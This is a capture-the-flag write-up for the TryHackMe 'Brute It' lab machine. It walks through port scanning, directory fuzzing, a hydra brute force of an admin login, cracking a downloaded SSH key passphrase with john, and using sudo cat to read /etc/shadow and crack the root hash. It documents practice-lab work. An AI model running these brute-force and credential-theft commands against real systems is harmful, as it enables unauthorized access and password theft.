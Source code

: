 ```yaml
---
title: TryHackMe - Brute It
author: Bonface
date: 2024-01-31 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - brute
  - ssh
  - http
  - gobuster
  - john
  - crack
  - SUID
image:
  path: /assets/img/try_hack_me/Easy/Brute_It/0.png
  alt: Brute_It
---
```


# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap
We start off with an nmap scan
```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```

Here is the nmap output : 
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the scan we get that we are working with a linux machine hosting a web server and a ssh service.
We can start off with web since it has more attack vectors.
# Web

## The site
![](../assets/img/try_hack_me/Easy/Brute_It/1.png)
We get a static page thus we can't do much on it but we can do a directory fuzzing to try discovering other pages.
## Dir scan
For the scan will be using `gobuster`
```sh
gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin`  
![image](https://gist.github.com/user-attachments/assets/a99c8ecc-e493-488e-9d69-cd92b229c5a0)

Viewing the source code.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="[styles.css](view-source:http://10.10.165.230/admin/styles.css)">
    <title>Admin Login Page</title>
</head>
<body>
    <div class="main">
        <form action="[](view-source:http://10.10.165.230/admin/)" method="POST">
            <h1>LOGIN</h1>

            
            <label>USERNAME</label>
            <input type="text" name="user">

            <label>PASSWORD</label>
            <input type="password" name="pass">

            <button type="submit">LOGIN</button>
        </form>
    </div>

    <!-- Hey john, if you do not remember, the username is admin -->
</body>
</html>
```

From this we have this details : 
- user = john  
- username = admin  
- password = ???  

## Brute force

With the credentials we have we can use hydra to do a password brute force since we have the username.

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.206.90 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-18 00:16:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.206.90:80/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid
[80][http-post-form] host: 10.10.206.90   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-18 00:17:19

```

With that we have this creds : 
- username = `admin`  
- password = `xavier`  

We login!  
![](../assets/img/try_hack_me/Easy/Brute_It/5.png)
Let's download the rsa key

```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
Brute force using john : 
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```
![](../assets/img/try_hack_me/Easy/Brute_It/6.png)

- user = `john`  
- password = `rockinroll`  

Let's jump to ssh port 22 :
```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```

# privilege escalation
Since we have the password we can start off with `sudo -l` to see the permissions we have.
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$
```

We can read any file we want with the `/bin/cat`
We get that we can read the `/etc/shadow` file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john : 
```sh
 john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)     
1g 0:00:00:00 DONE (2025-06-18 00:30) 2.941g/s 752.9p/s 752.9c/s 752.9C/s 123456..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


```
